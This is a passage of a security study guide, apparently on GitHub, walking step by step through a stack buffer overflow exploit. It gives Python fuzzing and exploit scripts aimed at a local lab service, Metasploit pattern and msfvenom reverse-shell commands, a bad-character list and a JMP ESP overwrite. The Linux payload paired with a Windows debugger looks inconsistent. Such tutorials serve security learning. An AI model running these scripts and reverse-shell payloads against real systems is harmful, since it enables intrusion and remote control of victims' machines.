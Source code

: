 # Chapter 8 - Buffer Overflow / Reverse Engineering

> Reverse engineering is taking apart an object to see how it works in order to duplicate or enhance the object. The practice, taken from older industries, is now frequently used on computer hardware and software. Software reverse engineering involves reversing a program's machine code back into the source code that it was written in, using program language statements.
>
> _**— Anonymous**_

The below will pertain to Buffer Overflow steps.

## Fuzzing

##### STEP 1 - script

The point of this is to crash the application and to find approximately **how many bytes were needed** to crash the application.

```
#!/usr/bin/python

import socket

buffer=["A"]
counter=100 #start at 100 As

while len(buffer) <=1000:
	buffer.append("A"*counter)
	counter=counter+1 #increment by 1 untill 1000

try:
	for string in buffer:
		print "Fuzzing App with %s bytes" % len(string)
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		connect=s.connect(("127.0.0.1", 9999))
		s.recv(1024)
		s.send(string + '\r\n')
		s.close()

except:
	print "Could not connect to app..."
```

##### STEP 2 - pattern_create

With the number of bytes we found from the previous step, we will use MSF's pattern create tool to create a unique buffer which we will send to the application again.

```
Kali> msf-pattern_create -l <BYTES>
```

The output will be plugged into the **buffer** variable in a simpler fuzzer script, shown below.

```
#!/usr/bin/python
import socket

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)

#buffer = 'A' * 520
buffer = **_(Output of msf-pattern_create)_**

try:
	print "\nSending malicious buffer..."
	s.connect(('127.0.0.1',9999))
	data = s.recv(1024)
	s.send(buffer + '\r\n')
	print "\nOverflowed!!!"
except:
	print "Could not connect..."
```

##### STEP 3 - pattern_offset

Now we will run the new script with the pattern_create buffer.
The application should once again crash. Check the **EIP** and take that value and plug it into pattern_offset.

```
Kali> msf-pattern_offset -q <EIP VALUE>

example output: [*] Exact match at offset 524
```

The output of the above command will output an exact offset of bytes in the application. This offset is then used to determine the where the overflow lies from the applications **EBP (524)**, and into **EIP (525)**.


##### STEP 4 - Shellcode size

Because we now know where the cutoff point is in the appplications stack, we can now start looking at how big our allotment for shellcode is. Let's look at the below code.

```
buffer='A'*524 + 'B'*4 + 'C'*(1200-524-4)
```

'A' is used for filling up the applications's buffer. We know we only need 524 because of **STEP 3**.
'B' is used for filling in the EIP register.
'C' is used to show us how much space we are given to add our own (shell)code into it.

This is an important step because the we will try to add a number of 'C' and that will show us if we are limited in size of our shellcode/malicious payload.

The more 'C's you see, the more space you have to inject larger sized shellcode.


##### STEP 5 - bad characters check

Now it's time to test bad characters. These are characters that will cause our shellcode to be interupted if not checked before execution.

_possible bad chars_
```
badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
``` 
_note: \x00 may stop/crash your program due to it being a NULL char. Please remove it before continuing if you deem appropriate._

We are going to add the above into our script like below and run.

```
buffer='A'*524 + 'B'*4 + badchars
```

We should expect to see everything in the **badchars** variable within the **ESP** of the application using **ollydbg**.
We should see the following in the hex dump of the **ESP** in the dump...

```
0043F860  01 02 03 04 05 06 07 08  
0043F868  09 0A 0B 0C 0D 0E 0F 10  ....
0043F870  11 12 13 14 15 16 17 18  
0043F878  19 1A 1B 1C 1D 1E 1F 20  
0043F880  21 22 23 24 25 26 27 28  !"#$%&'(
0043F888  29 2A 2B 2C 2D 2E 2F 30  )*+,-./0
0043F890  31 32 33 34 35 36 37 38  12345678
0043F898  39 3A 3B 3C 3D 3E 3F 40  9:;<=>?@
0043F8A0  41 42 43 44 45 46 47 48  ABCDEFGH
0043F8A8  49 4A 4B 4C 4D 4E 4F 50  IJKLMNOP
0043F8B0  51 52 53 54 55 56 57 58  QRSTUVWX
0043F8B8  59 5A 5B 5C 5D 5E 5F 60  YZ[\]^_`
0043F8C0  61 62 63 64 65 66 67 68  abcdefgh
0043F8C8  69 6A 6B 6C 6D 6E 6F 70  ijklmnop
0043F8D0  71 72 73 74 75 76 77 78  qrstuvwx
0043F8D8  79 7A 7B 7C 7D 7E 7F 80  yz{|}~€
0043F8E0  81 82 83 84 85 86 87 88  ‚ƒ„…†‡ˆ
0043F8E8  89 8A 8B 8C 8D 8E 8F 90  ‰Š‹ŒŽ
0043F8F0  91 92 93 94 95 96 97 98  ‘’“”•–—˜
0043F8F8  99 9A 9B 9C 9D 9E 9F A0  ™š›œžŸ 
0043F900  A1 A2 A3 A4 A5 A6 A7 A8  ¡¢£¤¥¦§¨
0043F908  A9 AA AB AC AD AE AF B0  ©ª«¬­®¯°
0043F910  B1 B2 B3 B4 B5 B6 B7 B8  ±²³´µ¶·¸
0043F918  B9 BA BB BC BD BE BF C0  ¹º»¼½¾¿À
0043F920  C1 C2 C3 C4 C5 C6 C7 C8  ÁÂÃÄÅÆÇÈ
0043F928  C9 CA CB CC CD CE CF D0  ÉÊËÌÍÎÏÐ
0043F930  D1 D2 D3 D4 D5 D6 D7 D8  ÑÒÓÔÕÖ×Ø
0043F938  D9 DA DB DC DD DE DF E0  ÙÚÛÜÝÞßà
0043F940  E1 E2 E3 E4 E5 E6 E7 E8  áâãäåæçè
0043F948  E9 EA EB EC ED EE EF F0  éêëìíîïð
0043F950  F1 F2 F3 F4 F5 F6 F7 F8  ñòóôõö÷ø
0043F958  F9 FA FB FC FD FE FF     ùúûüýþÿ
```

Should there be a bad character, we should not see the preceding characters after. For example, if we added **\0x00**, then we shouldn't see any more of the following characters from the **_badchars_** variable in the script.


##### STEP 6 - Find the JMP 

Find the JMP ESP. ESP is the location where our shellcode will theoretically begin. We need to find the address of the function that will jump us to the ESP register.

In **ollydbg**, we can restart the application and **right click**, **search for**, **all commands** will allow us to search for `jmp esp`. We then will copy the address of this function.

With the address of the `JMP ESP`, we will now add it to the script replacing the 'B's. So when the buffer overflow runs, it will add the `JMP ESP` address into the `EIP` and have it jump to where our shellcode starts, `ESP`. **Ollydbg** helps visualize where everything in the application lives.

```
#JMP ESP = 311712F3

buffer='A'*524 + "\xF3\x12\x17\x31" + <SHELLCODE>
```

_note_: It's placed in **little endian** format



###### STEP 7 - Shellcode creation

Time to create our malicious shellcode.

```
Kali> msfvenom -p linux/x86/meterpreter/reverse_tcp -b \x00 LHOST= LPORT= -f python
```

Add the output to the script and call the `buf` variable in the `buffer` variable.

_note_: Adding a NOP sled prior the `buf`.

```
buffer='A'*524 + "\xF3\x12\x17\x31" + '\x90' * 20 + buf
```


##### STEP 8 - Exploit

After your python script is ready, set up a listener according to the shellcode created and run!



## Reverse Engineering Resources

Reverse Engineering is hard and I'm bad at it, looking for contributions to this section. Please DM me on [Twitter](https://twitter.com/dostoevskylabs)

[Reverse Engineering - WikiPedia](https://en.wikipedia.org/wiki/Reverse_engineering#Reverse_engineering_of_software)

[Intro to Reverse Engineering - YouTube](https://www.youtube.com/playlist?list=PLUFkSN0XLZ-nXcDG89jS9iqKBnNHmz7Qw)

[Intro to Reverse Engineering - Course Files](http://opensecuritytraining.info/IntroductionToReverseEngineering.html)

[Intro to x86 Assembly - YouTube](https://www.youtube.com/playlist?list=PL038BE01D3BAEFDB0)

[Intro to x86 Assembly - Course Files](http://opensecuritytraining.info/IntroX86.html)

[Awesome Reversing](https://github.com/fdivrp/awesome-reversing)

[Reverse Engineering 101 - Malware Unicorn](https://securedorg.github.io/RE101/)

[What Can Reverse Engineering Do For You? - Malware Unicorn](https://www.slideshare.net/AmandaRousseau1/what-can-reverse-engineering-do-for-you)

[Lenas Reversing for Newbies](https://tuts4you.com/download.php?list.17)

[PoC\|\|GTFO 0x16](https://archive.org/stream/pocorgtfo16)

